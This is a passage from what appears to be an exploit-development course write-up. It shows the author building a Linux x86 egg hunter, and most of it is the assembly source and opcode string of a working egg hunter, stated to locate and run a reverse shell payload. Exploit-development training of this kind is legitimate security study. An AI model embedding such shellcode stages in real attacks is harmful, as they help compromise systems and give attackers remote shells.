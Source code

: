 ```
JMP EDX                       ; jump to ECX + 8 address where shell code would be located
```

Now everyting works fine, shell code is found by Egg Hunter and (reverse) shell code is executed. 

![egghunter2 works](https://smarinovic.github.io/assets/img/slae_00016.png)

Finding an egg with this Egg Hunter takes time and it has impact on performance which can be seen on the right part of the screenshot - CPU utilization (98.3%).

![cpu utilization](https://smarinovic.github.io/assets/img/slae_00020.png)

According to resources listed in last chapter, Linux maps user portion of the virtual address space using 4KB pages. Bytes 0-4095 fall in page 0, bytes 4096-8191 fall in page 1, and so on. 
If one address from the page is not accessible, all other addresses form the same page are also not accessible. 
So in order to speed up egghunter we could test if any address from page is accessible and if it is not we can skip to another page which saves us 4095 access syscalls per page.

## Egg Hunter - third and final attempt ##

```
global _start

section .text
_start:

MOV EDI, 0x74303077           ; place egg in EDX
XOR ECX, ECX                  ; clear ECX as ECX will be used as second argument to syscall
XOR EDX, EDX                  ; clear EDX as EDX will be used as to hold current address

NEXT_PAGE:
  OR DX, 0xFFF                ; dx=4095 ; 0x1000 - 1 (4095) ; Page sizes in Linux x86 = 4096

NEXT_ADDRESS:                 ; label used for looping
  INC EDX                     ; increase EDX by 1

XOR EAX, EAX                  ; EAX is used for access syscall number
MOV AL, 0x21                  ; access syscall number 0x21
LEA EBX, [EDX+8]              ; check if EDX+8 is accessible
INT 0x80                      ; interrupt (syscall 0x21)

CMP AL, 0xF2                  ; check for EFAULT
JZ NEXT_PAGE                  ; if not accessible jump to NEXT_PAGE         

CMP [EDX], EDI                ; if address is accessible then compare 4 bytes with egg stored in EDI
JNZ NEXT_ADDRESS              ; if egg is not found, jump to NEXT_ADDRESS

CMP [EDX+4], EDI              ; compare next 4 bytes with egg 
JNZ NEXT_ADDRESS              ; if second egg is not found, jump to NEXT_ADDRESS

ADD EDX, 0x8                  ; if two eggs are found, increase EDX + 8 (to skip two eggs)
JMP EDX                       ; jump to EDX + 8 address where shell code would be located

```
opcode: `"\xbf\x77\x30\x30\x74\x31\xc9\x31\xd2\x66\x81\xca\xff\x0f\x42\x31\xc0\xb0\x21\x8d\x5a\x08\xcd\x80\x3c\xf2\x74\xed\x39\x3a\x75\xee\x39\x7a\x04\x75\xe9\x83\xc2\x08\xff\xe2"`
